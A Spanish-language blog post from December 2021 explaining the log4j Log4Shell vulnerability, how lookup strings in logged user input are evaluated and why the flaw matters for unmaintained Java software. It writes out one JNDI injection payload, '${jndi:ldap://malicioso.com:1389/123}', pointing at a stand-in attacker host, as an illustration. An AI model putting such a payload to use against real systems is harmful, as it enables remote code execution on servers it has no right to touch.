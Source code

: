 +++
title = "¿qué pasó con log4j?"
slug = "20211222125958771"
date = "2021-12-22T11:44:58-06:00"
[taxonomies]
tema = ["noticias"]
autor = ["Víctor Manuel Jáquez Leal"]
+++

Para estas alturas posiblemente todos ya estarán enterados del fallo de
seguridad en log4j\[1\], aunque creo que vale la pena repasarlo.

Todo software más o menos complejo registra los eventos que le
conciernen. La forma más simple de registrar estos eventos, sería
imprimir en la salida estándar o de error un mensaje, humanamente
legible, describiendo el evento en cuestión. Pero el registro de eventos
puede complicarse al grado de que existen bibliotecas de software
específicas que abstraen esta actividad. Hay bibliotecas de “logging”
(como se conoce al registro de eventos) para todos los lenguajes, y
log4j\[2\] es uno de los disponibles para Java.

¿En qué consiste el bug?

En pocas palabras, log4j “parsea” los mensajes a registrar en búsqueda
de variables que puede reemplazar. Por ejemplo, el programador loggea
este mensaje:

logger.info(“El usuario” + user + ” ha entrado”).

Entonces log4j parsea la cadena y sabe que la variable user, en el
estado actual de la aplicación es “ceyusa”, por lo que finalmente
escribe en bitácora

12:38:10.234 \[main\] INFO Main - El usuario ‘ceyusa’ ha entrado

Esto es muy útil, pero como todos los datos proveeidos por el usuario,
son potencialmente peligrosos, máxime si éstos viajan por red.

Supongamos que el usuario puede cambiar su nombre de usuario de “ceyusa”
a “${java:version}”. log4j parseará esa cadena y verá que es un programa
en java que ejectua, por lo que el resultado será:

12:38:10.234 \[main\] INFO Main - El usuario ‘Java version 1.8.0_213’ ha
entrado

Por otro lado, hay una cosa en Java que se llama JNDI: Java Naming and
Directory Interface\[3\]. Es una interfaz para indicar, a la máquina
virtual de Java, la localización de un recurso remoto, por ejemplo una
base de datos, un Enterprise Java Bean, etcétera. Uno de los usos más
comunes es obtener información de un directorio a través del protocol
LDAP.

En nuestro ejemplo, el usuario podría cambiar su nombre de usuario por
‘${jndi:ldap://malicioso.com:1389/123}’. Lo que haría log4j sería
parsear esa cadena y ejectuarla. Al usar la API de JNDI, sabrá que el
contenido de esa variable se encuentra en un servidor remoto, llamado
malicioso.com, usando el protocolo LDAP y obtendrá el registro con la
llave 123. Este servidor remoto puede estar bajo control del atacante y
devolverá una cadena que se ejecutará dentro de la máquina virtual de
Java que ejecuta de nuestra inocente aplicación, como, por ejemplo,
lanzar una terminal en un puerto TCP (el típico remote backdoor).

¿Por qué es tan reelevante?

1.  Hay un montón de software en Java, legacy, sin mantener,
    ejecutándose en internet, usando una versión vulnerable de log4j.
2.  Hay un montón de software en Java, mantenido, pero que tiene una
    dependencia fuerte a un framework que usa una versión vulnerable de
    log4j.
3.  Hay demasiado software en Java, como en bancos, controladores
    aeropuertuarios, etc.

Finalmente, nos remite al cartón de XKCD\[4\] sobre tener dependencias
profundas de software, en sistemas complejos. O, al otro, clásico, sobre
no confiar, nunca, en lo absoluto, en las entradas del sistema\[5\].

Es más, hay quien toma esta situación como argumento para evitar esos
grantes frameworks totalizantes, y que sólo el lenguaje de programación
sea nuestro framework\[6\].

1.  https://nvd.nist.gov/vuln/detail/CVE-2021-44228
2.  https://logging.apache.org/log4j/2.x/
3.  https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
4.  https://xkcd.com/2347/
5.  https://xkcd.com/327/
6.  https://twitter.com/tomaka17/status/1470022487790571522

